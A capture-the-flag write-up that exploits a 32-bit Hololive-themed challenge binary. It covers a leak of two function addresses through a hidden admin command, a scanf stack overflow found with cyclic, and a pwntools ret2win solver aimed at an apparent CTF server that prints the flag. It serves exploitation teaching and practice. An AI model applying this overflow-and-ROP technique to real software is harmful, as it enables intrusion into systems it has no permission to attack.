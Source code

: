 ![alt text](image.png)

What you need to solve :
- Basic knowledge of c
- Basic knowledge of stack
- Basic ROP

---

Starting the challenge we were given a file we should check the file type first.

```sh
❯ file chall
chall: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=bd5221b68d53722605f69cbfe72f5b5a778ad8cf, for GNU/Linux 3.2.0, not stripped
❯ checksec chall
[*] '/home/renko/temp/csc/chall'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

So from the information above we can see that the ELF file is a 32bit elf thats not stripped, and there is PIE enabled which we have to keep that in mind.

But lets decompile the program first.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  time_t v3; // eax
  char s[100]; // [esp+0h] [ebp-6Ch] BYREF
  int *p_argc; // [esp+64h] [ebp-8h]

  p_argc = &argc;
  v3 = time(0);
  srand(v3);
  adminPass = rand() % 90000 + 10000;
  while ( 1 )
  {
    while ( 1 )
    {
      puts("Welcome to my HOLOLIVE fanbase");
      puts("The best fanbase ever created");
      puts("what do you want to do?");
      puts("1. Show profile");
      puts("2. List favourites");
      puts("3. List talents");
      puts("4. Watch a live");
      puts("5. Manage your account");
      puts("6. Exit");
      fgets(s, 100, stdin);
      if ( strcmp(s, "1\n") )
        break;
      showProfile();
    }
    if ( !strcmp(s, "6\n") )
      break;
    if ( !strcmp(s, "4\n") )
    {
      system("clear");
      printArt();
      getchar();
    }
    else if ( !strcmp(s, "2\n") )
    {
      printf("\n1. Kroni\n2. Biboo\n3. Fuwawa and Mococo");
      getchar();
    }
    else if ( !strcmp(s, "3\n") )
    {
      system("clear");
      puts("Hololive Talents:");
      puts("1. Tokino Sora");
      puts("2. Roboco-san");
      puts("3. Sakura Miko");
      puts("4. Hoshimachi Suisei");
      puts("5. Azuki Kiryu");
      puts("6. Inugami Korone");
      puts("7. Nekomata Okayu");
      puts("8. Usada Pekora");
      puts("9. Shiranui Flare");
      puts("10. Kiryuu Coco");
      puts("11. Amane Kanata");
      puts("12. Kiryu Coco");
      puts("13. Tsukumo Sana");
      puts("14. Mori Calliope");
      puts("15. Takanashi Kiara");
      puts("16. Ouro Kronii");
      puts("17. Nanashi Mumei");
      puts("18. Hakos Baelz");
      puts("19. Irys");
      puts("20. Michael Aurelio");
      getchar();
    }
    else if ( !strcmp(s, "5\n") )
    {
      manage_acc();
    }
    else if ( !strcmp(s, "adminBetaSecretCommand\n") )
    {
      printf("%p\n", list_all_password);
      printf("%p", admin_get_secret);
    }
  }
  return 0;
}
```

So there are 1 interesting function that is the `adminBetaSecretCommand` command, where this command will leak 2 addresses called `list_all_password` and `admin_get_secret`.

```c
int list_all_password()
{
  _BYTE v1[68]; // [esp+0h] [ebp-48h] BYREF

  puts("auric -> \"kronipleasenoticeme1\"");
  printf("admin -> \"%d\"\n", adminPass);
  return __isoc99_scanf("%s", v1);
}

int admin_get_secret()
{
  char s[256]; // [esp+8h] [ebp-110h] BYREF
  int v2; // [esp+108h] [ebp-10h] BYREF
  FILE *stream; // [esp+10Ch] [ebp-Ch]

  puts("Username : admin");
  puts("Password : ");
  __isoc99_scanf("%d", &v2);
  if ( v2 == adminPass )
  {
    stream = fopen("kronichiwa.hololive", "r");
    if ( fgets(s, 256, stream) )
      puts(s);
    fclose(stream);
  }
  getchar();
  return getchar();
}
```

So from this we already know the flow on getting the flag, that is first we need to get into `list_all_password()` to leak the admin password then go to `admin_get_secret()` to submit the admin password and get the flag.

But first we have to find a place thats vulnerable to ROP!

In the `5` choice we should check the decompiled code first.

```c
int manage_acc()
{
  _BYTE v1[68]; // [esp+0h] [ebp-48h] BYREF

  puts("Account manager BETA 1.0");
  puts("Change Username [still on BETA]");
  return __isoc99_scanf("%s", v1);
}
```

as you can see the `manage_acc()` is vulnerable to ROP because its using `scanf()` which will take user input no matter what until it sees a newline.

---

First we need to find the offset of the amount of bytes before the ret address in the function, i will be using cyclic to find the value.

```sh
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

![alt text](image-1.png)

As you can see the value inside of ebp is `saaa` we can try to find which offset that is.

```sh
pwndbg> cyclic -l saaa
Finding cyclic pattern of 4 bytes: b'saaa' (hex: 0x73616161)
Found at offset 72
```

This tells us the offset of the ebp!

We can solve this already with all the information that we have.

```py
#!/usr/bin/env python3

from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

TARGET = './chall'
# 46.202.163.245 38932
HOST = '46.202.163.245'
PORT = 38932

elf = ELF(TARGET)
#libc = ELF('./libc.so.6', checksec=True)
#ld = ELF('./ld-2.27.so', checksec=False)

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

#context.log_level = 'DEBUG'
gdb_script = f"""
    break *main
    b *manage_acc
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #

# adminBetaSecretCommand

p.sendline(b'adminBetaSecretCommand')
p.recvuntil(b'6. Exit\n')
leak_1 = int(p.recvline()[:-1],16 )
leak_2 = int(p.recvline()[:10], 16)

print(f"leak1 {hex(leak_1)}") # list_all_passwd
print(f"leak2 {hex(leak_2)}") # admin_get_secret

jnk = b'A' * 68 + b'B' * 8 + p32(leak_1) + p32(leak_2)
p.sendline(b'5')
p.sendline(jnk)

p.interactive()

# NOTE:
# Ret2win
```

Solver Script by : Relster

Basicly in we can just rewrite 2 of the return address, first to read the admin password then go to the admin login.

![alt text](image-2.png)

Flag : CSC{Kronii_took_my_time_Fuwawa_and_Mococo_turn_me_into_a_giggling_mess_Biboo_is_my_ultimate_hype!}